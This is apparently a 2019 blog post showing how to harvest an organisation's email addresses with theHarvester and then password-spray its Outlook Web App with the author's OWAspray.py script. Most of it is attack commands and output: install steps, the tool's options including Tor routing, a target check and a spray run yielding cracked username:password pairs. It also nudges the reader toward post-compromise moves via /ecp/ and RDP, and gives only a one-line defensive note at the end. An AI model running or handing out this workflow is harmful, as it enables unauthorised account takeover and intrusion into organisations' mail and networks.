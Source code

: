```yaml
---
layout: post
title:  "Reverse brute force attack (or just Password Spraying) using OWAspray.py"
date:   2019-06-02 01:00:00 -0400
keywords: "python, OSINT, tools, owa"
comments: true
description: "How to use OWAspray.py to hack into Outlook Web App?"
---
```


Weak passwords are still a thing. I've being worried about this for a while. Weak passwords aren't new and we should paying attention since a malicious person can go further from a compromised account. In only 5 minutes anybody can access to a network and move laterally once inside. As a Proof of Concept I did publish a simple Python script called [OWAspray.py](https://github.com/davidtavarez/owaspray) to test the top 10 worst password we possibly find.

First we're going to collect using [theHavester](https://github.com/laramies/theHarvester); theHarvester is a very simple, yet effective tool designed to be used in the early stages of a penetration test. Use it for open source intelligence gathering and helping to determine a company's external threat landscape on the internet. Let's install it:

```bash
$ git clone https://github.com/laramies/theHarvester.git
$ cd theHarvester
$ virtualenv -p python3 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
```

Good. Now, let's find some info:

```bash
$ python theHarvester.py -d DOMAIN -b all -l 200
...
[*] Emails found: X
----------------------
...
FIRSTNAMELASTNAME@DOMAIN
FIRSTNAMELASTNAME@DOMAIN
...
[*] Hosts found: Y
---------------------
...
mail.DOMAIN:IP
...
```

We'll see a lot of information but right now we only want to collect the emails and the URL. This time we have the next pattern: `FIRSTNAME+LASTNAME@DOMAIN`. Cool, with this we go to LinkedIn and get more usernames. This tool looks pretty good [linkedin2username](https://github.com/initstring/linkedin2username), you can try it; I will be (probably) writing some script for this later. Now, because we have the email pattern we can write a list of usernames to test.

Let's the magic begin...

## OWAspray.py

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. These attacks have become one of the favorite technique of attackers, as it has proved to be very effective for advancing through a network after having established a foothold inside. I did write a script to test this, let's try it:

```bash
$ git clone https://github.com/davidtavarez/owaspray
$ cd owaspray
$ virtualenv -p python2.7 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
$ python spray.py --help

  .--. .-.   .-. .--.
 : ,. :: :.-.: :: .; :
 : :: :: :: :: ::    : .--. .---. .--.  .--.  .-..-.
 : :; :: `' `' ;: :: :`._-.': .; `: ..'' .; ; : :; :
 `.__.' `.,`.,' :_;:_;`.__.': ._.':_;  `.__,_;`._. ;
                            : :                .-. :
                            :_;                `._.'

usage: spray.py [-h] -t TARGET -u USERNAME_FILE -p PASSWORD_FILE
                [--tor-host TOR_HOST] [--tor-port TOR_PORT]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL of the target.
  -u USERNAME_FILE, --username_file USERNAME_FILE
                        The list of users.
  -p PASSWORD_FILE, --password_file PASSWORD_FILE
                        The list of passwords to try.
  --tor-host TOR_HOST   Tor server.
  --tor-port TOR_PORT   Tor port server.
```

Now we can confirm the URL:

```bash
$ curl -L -I https://mail.DOMAIN/
HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Content-Length: 0
Location: https://mail.DOMAIN/owa/
...

HTTP/1.1 440 Login Timeout
Content-Length: 43
Content-Type: text/html; charset=utf-8
...
Connection: close
...
```

Good. Let's hack this!

```bash
$ python spray.py -t https://mail.DOMAIN -u users.txt -p passwords.txt
[+] FIRSTNAMELASTNAME:PASSWORD
[+] FIRSTNAMELASTNAME:PASSWORD
...
```

:)

The important question is: how far can I go from here? Well, if you got an admin account, you can move to `/ecp/` and have fun; also, find some open `RDP` will be fine I guess... what else? I don't know, ***use your creativity!***

### What should we do to protect users

It's very simple: use better passwords, do not repeat passwords, enforce 2F Auth and create a max-attempt policy.
